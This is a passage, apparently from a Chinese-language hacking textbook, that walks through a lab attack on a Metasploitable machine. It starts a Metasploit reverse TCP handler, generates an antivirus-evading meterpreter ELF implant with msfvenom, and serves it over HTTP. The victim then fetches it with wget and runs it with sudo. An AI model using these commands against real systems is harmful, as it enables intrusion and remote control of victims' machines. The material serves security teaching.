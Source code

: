 `exploit` 命令运行模块。如果你已经成功启动了服务器，应该能看到以下输出：

```
[*] Started reverse TCP handler on <Kali IP address>:443
```

保持这个终端打开，以便服务器继续运行。

#### ***构建受害者客户端***

现在，让我们创建要安装到受害者机器上的植入物。在你的 Kali Linux 桌面上创建一个名为*Malware*的新文件夹：

```
kali@kali:~$ mkdir ~/Desktop/Malware
```

打开一个新的终端，运行以下命令以导航到该文件夹：

```
kali@kali:~$ cd ~/Desktop/Malware
```

我们将使用`msfvenom`工具来创建恶意植入物。运行以下命令来创建：

```
kali@kali:~/Desktop/Malware$ sudo msfvenom -a x86 --platform linux -p linux/

			 x86/meterpreter/reverse_tcp LHOST=<Kali IP address> LPORT=443 --

			 smallest -i 4 -f elf -o malicious
```

`-a`标志代表目标架构，这里是`x86`。`--platform`标志指定目标平台，`-p`标志指定有效载荷类型，这里是像我们在第四章中实现的反向 TCP shell。`--smallest`标志生成最小可能的有效载荷。`-i`标志有助于我们避免防病毒检测，我稍后会详细讨论。`-f`标志表示我们需要输出的文件类型。我们选择了`elf`，因为它是 Linux 可执行文件使用的格式。（*exe*格式是 Windows 可执行文件使用的格式。）`-o`标志指定输出文件的名称。

#### ***上传植入物***

我们将以与在第四章中交付反向 shell 相同的方式交付植入物：通过将其下载到受害者机器上。在 Malware 文件夹中启动一个 Python 服务器，运行以下命令。

```
kali@kali:~/Desktop/Malware/$ sudo python3 -m http.server 80
```

在之前的章节中，我们讨论了几种获得系统访问权限的方法。为简化起见，我们不再使用之前的后门，而是假设黑客已经窃取了系统的凭据。启动 Metasploitable 服务器并使用用户名**msfadmin**和密码**msfadmin**登录。然后，使用`wget`工具下载植入物：

```
msfadmin@metasploitable:~$ wget <Kali IP address>:80/malicious
```

通过运行以下命令使植入物可执行（`+x`）：

```
msfadmin@metasploitable:~$ sudo chmod +x malicious
```

通过执行以下命令运行恶意程序：

```
msfadmin@metasploitable:~$ sudo./malicious &
```
